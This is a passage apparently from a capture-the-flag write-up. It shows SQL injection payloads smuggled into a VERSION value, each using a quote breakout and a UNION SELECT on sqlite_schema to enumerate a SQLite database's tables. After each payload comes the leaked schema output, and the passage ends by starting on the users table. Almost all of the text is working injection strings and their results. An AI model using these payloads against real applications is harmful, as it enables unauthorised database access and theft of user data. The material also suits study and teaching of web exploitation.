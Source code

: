 output :
```text
{"message": {"id": "CREATE TABLE sqlite_sequence(name,seq)", "version": 2, "released_date": 3, "downloads": 4}}
```



```python
VERSION = '0.0.2"UNION SELECT sql,2,3,4 from sqlite_schema where sql not like "CREATE TABLE versions %" and sql not like "CREATE TABLE users %" and sql not like "CREATE TABLE sqlite_%" -- -' # list tables
```

output :
```text
{"message": {"id": "CREATE TABLE reports (id INTEGER PRIMARY KEY AUTOINCREMENT, reporter_name TEXT, subject TEXT, description TEXT, reported_date DATE)", "version": 2, "released_date": 3, "downloads": 4}}
```




```python
VERSION = '0.0.2"UNION SELECT sql,2,3,4 from sqlite_schema where sql not like "CREATE TABLE versions %" and sql not like "CREATE TABLE users %" and sql not like "CREATE TABLE sqlite_%" and sql not like "CREATE TABLE reports %" -- -' # list tables
```

output :
```text
{"message": {"id": "CREATE TABLE info (id INTEGER PRIMARY KEY AUTOINCREMENT, key TEXT, value TEXT)", "version": 2, "released_date": 3, "downloads": 4}}
```



```python
VERSION = '0.0.2 "UNION SELECT sql,2,3,4 from sqlite_schema where sql not like "CREATE TABLE versions %" and sql not like "CREATE TABLE users %" and sql not like "CREATE TABLE sqlite_%" and sql not like "CREATE TABLE reports %" and sql not like "CREATE TABLE info %" -- -' # list tables
```

output :

```text
{"message": {"id": "CREATE TABLE answers (id INTEGER PRIMARY KEY AUTOINCREMENT, answered_by TEXT,  answer TEXT , answered_date DATE, status TEXT,FOREIGN KEY(id) REFERENCES reports(report_id))", "version": 2, "released_date": 3, "downloads": 4}}
```


So we have 4 tables :

- info
- reports
- users
- answers

we can explore these table to find informations, in "users" table :
